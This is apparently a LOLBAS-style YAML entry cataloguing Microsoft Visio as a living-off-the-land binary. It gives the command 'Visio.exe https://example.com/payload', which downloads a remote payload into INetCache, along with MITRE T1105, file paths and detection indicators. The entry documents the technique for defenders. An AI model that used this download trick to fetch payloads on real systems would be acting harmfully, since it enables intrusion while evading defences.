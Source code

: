 ```yaml
---
Name: Visio.exe
Description: Microsoft Visio Executable
Author: Avihay Eldad
Created: 2024-02-15
Commands:
  - Command: Visio.exe https://example.com/payload
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\Visio.exe
  - Path: C:\Program Files\Microsoft Office\Office14\Visio.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\Visio.exe
  - Path: C:\Program Files\Microsoft Office\Office15\Visio.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\Visio.exe
  - Path: C:\Program Files\Microsoft Office\Office16\Visio.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\Office14\Visio.exe
  - Path: C:\Program Files\Microsoft Office\root\Office14\Visio.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\Office15\Visio.exe
  - Path: C:\Program Files\Microsoft Office\root\Office15\Visio.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\Office16\Visio.exe
  - Path: C:\Program Files\Microsoft Office\root\Office16\Visio.exe
Detection:
  - IOC: URL on a visio.exe command line
  - IOC: visio.exe making unexpected network connections or DNS requests
Acknowledgement:
  - Person: Avihay Eldad
    Handle: '@AvihayEldad'
---
```

